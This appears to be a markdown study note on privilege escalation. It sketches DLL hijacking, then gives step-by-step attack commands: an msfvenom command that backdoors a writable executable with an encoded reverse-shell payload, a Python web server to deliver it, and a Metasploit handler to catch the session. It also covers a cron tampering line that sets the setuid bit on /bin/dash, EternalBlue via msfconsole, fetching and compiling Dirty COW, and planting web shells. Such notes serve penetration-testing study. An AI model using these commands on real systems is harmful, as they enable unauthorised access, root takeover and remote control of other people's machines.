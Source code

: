 # **Privillage Escalation**
---
## **DLL Hijacking**
- **Dynamic Link Library**
dll should use absolute path if not it exposes an exploit

            --------------------- app
            |                 |
            |                 |
            |                \/
            |                /\
        ------------         | 
        |malicious |         |
        |dll folder|      ------------
        ------------      |normal dll|
                          |folder    |
                          ------------

- ***as an engineer use full paths always***
---
## **Permissions Errors**
- **Evil Program**
    - Once inside of machine as a user.
    - Look for app with rights permissions (mod perms)
    - Modify app as evil app
        1. Obtain copy of app or exe
        2. Use MSFVenom to create evil version of app or exe.

        - `msfvenom -a x86 --platform <os> -x <exe file> -k -p <path to script> LHOST=<ip> LPORT=4444 -e <encode to be sneaky> -i 3 -b "\x00" -f <file type> -o  <evil app file>`
    - Start web server with python:

            user@host:~$ python -m SimpleHTTPServer 8888
    - Download url
    - Check Downloads folder
    - Rename to replace safe app 
    - Copy to proper foler
    - Fire up meta sploit to recieve info from app
            
            user@host:~$ msfconsole
            msf > use multi/handler
            msf exploit(multi/handler) > set payload <path to script>
            msf exploit(multi/handler) > set LHOST <ip>
            msf exploit(multi/handler) > exploit
    - Now listening
    - once session is open you can gain access.

- **Automation Tasks Weakness**
    - use a scheduled task to gain permissions
    - look for scheduled tasks:
        - linux: cat /etc/crontab (good start)
        - windows: task manager
        - mac: p files
    - echo "chmod u+s /bin/dash" >> file to tamper (use dash because bash will try to keep you from running root privs)

- **Sudo Weakness**
    - sudo -l (list out sudo pivs)
---
## **OS Exploitation**
- **Windows**
    - eternal blue
        - msfconsole
        - msf > nmap -Pn -n -p 445 ip
        - msf > search eternalblue
        - msf exploit(exploit/path) > set rhost=ip
        - msf exploit(exploit/path) > set LHOST=ATTAKING IP LPORT=4444
        - msf exploit(exploit/path) > exploit
        - bam
        - double bam

- **Linux**
    - Dirty Cow Exploit
        - searchsploit dirty COW
        - look through exploits
        - select exploit
        - save exploit as .c
        - set up python web server 8888
        - wget from web server/dirtycow.c
        - checkout source code
        - make necessary modifications
        - compile code
        - run code
---
## **WEB SHELLS**
- create python web server
- wget app
- browse to webshell